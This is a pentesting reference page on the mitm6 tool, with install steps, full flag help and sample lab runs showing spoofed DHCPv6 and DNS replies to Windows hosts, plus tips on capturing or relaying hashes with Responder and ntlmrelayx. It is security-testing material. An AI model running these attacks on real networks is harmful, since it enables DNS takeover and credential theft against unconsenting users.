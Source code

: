 ```yaml
---
title : "Mitm6"
# pre : ' '
description : "mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server."
date : 2020-05-16T14:54:31+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Mitm6

"pwning IPv4 via IPv6" - mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server.

### Installation

```plain
sudo python3 -m pip install mitm6
```

### Usage

```plain
mitm6 [-h] [-i INTERFACE] [-l LOCALDOMAIN] [-4 ADDRESS] [-6 ADDRESS] [-m ADDRESS] [-a] [-v] [--debug] [-d DOMAIN] [-b DOMAIN] [-hw DOMAIN] [-hb DOMAIN] [--ignore-nofqdn]
```

### Flags

```plain
mitm6 - pwning IPv4 via IPv6
For help or reporting issues, visit https://github.com/fox-it/mitm6

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use (default: autodetect)
  -l LOCALDOMAIN, --localdomain LOCALDOMAIN
                        Domain name to use as DNS search domain (default: use first DNS domain)
  -4 ADDRESS, --ipv4 ADDRESS
                        IPv4 address to send packets from (default: autodetect)
  -6 ADDRESS, --ipv6 ADDRESS
                        IPv6 link-local address to send packets from (default: autodetect)
  -m ADDRESS, --mac ADDRESS
                        Custom mac address - probably breaks stuff (default: mac of selected interface)
  -a, --no-ra           Do not advertise ourselves (useful for networks which detect rogue Router Advertisements)
  -v, --verbose         Show verbose information
  --debug               Show debug information

Filtering options:
  -d DOMAIN, --domain DOMAIN
                        Domain name to filter DNS queries on (Whitelist principle, multiple can be specified.)
  -b DOMAIN, --blacklist DOMAIN
                        Domain name to filter DNS queries on (Blacklist principle, multiple can be specified.)
  -hw DOMAIN, --host-whitelist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Whitelist principle, multiple can be specified.)
  -hb DOMAIN, --host-blacklist DOMAIN
                        Hostname (FQDN) to filter DHCPv6 queries on (Blacklist principle, multiple can be specified.)
  --ignore-nofqdn       Ignore DHCPv6 queries that do not contain the Fully Qualified Domain Name (FQDN) option.
```

### Examples

#### ATTENTION

To run mitm6 without interrupting the use of internet from the clients, you need to forward packets do this by running the following besides mitm6.

```plain
watch -n1 sudo sysctl -w net.ipv4.ip_forward=1
```

#### Use tool to route whole network

Tip: use [Responder]({{< ref "responder" >}}) to capture hashes or [NTLMrelayx.py]({{< ref "ntlmrelayx-py" >}}) to relay hashes.

```plain
$ sudo mitm6

Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:00:00:00:b3]
IPv4 address: 10.10.10.45
IPv6 address: fe80::a00:27ff:fede:92b3
Warning: Not filtering on any domain, mitm6 will reply to all DNS queries.
Unless this is what you want, specify at least one domain with -d
IPv6 address fe80::4865:1 is now assigned to mac=00:00:00:00:00:29 host=WS10.offsec.nl. ipv4=
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
IPv6 address fe80::4865:3 is now assigned to mac=00:00:00:00:00:27 host=DC2019.offsec.nl. ipv4=
IPv6 address fe80::4865:4 is now assigned to mac=00:00:00:00:00:2b host=kali ipv4=
IPv6 address fe80::4865:5 is now assigned to mac=00:00:00:00:00:31 host=adguard-lab ipv4=
Sent spoofed reply for client.wns.windows.com. to fe80::4865:1
Sent spoofed reply for v10.events.data.microsoft.com. to fe80::4865:1
```

#### Specific target

```plain
sudo mitm6 -i eth0 -hw DC2016.offsec.nl
IPv6 address fe80::4865:2 is now assigned to mac=00:00:00:00:00:26 host=DC2016.offsec.nl. ipv4=
```

### URL list

* [GitHub.com - mitm6](https://github.com/fox-it/mitm6)
